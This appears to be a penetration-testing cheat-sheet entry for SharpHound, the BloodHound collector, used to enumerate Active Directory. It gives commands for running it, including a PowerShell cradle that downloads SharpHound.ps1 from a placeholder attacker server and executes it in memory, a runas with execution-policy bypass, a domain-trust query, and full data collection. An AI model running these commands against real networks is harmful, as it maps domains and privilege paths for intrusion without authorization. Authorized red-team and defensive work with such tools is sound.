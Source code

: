 # sharphound

% sharphound, Active directory enumeration, https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
#plateform/windows #target/remote #port/389 #port/631 #cat/AD/RECON

## download and  collect data
#tag/powershell 
https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
http://<local_ip>/windows/windows_weaponize/ps/SharpHound.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain_fqdn>
```

## collect data
#tag/powershell 
runas /netonly /user:admin\guest "powershell.exe -exec bypass"
nltest.exe /DOMAIN_TRUSTS
```powershell
import-module sharphound.ps1; invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain_fqdn>
```


## collect data
#tag/powershell 
```powershell
SharpHound.exe -c All -d <domain_fqdn>
```
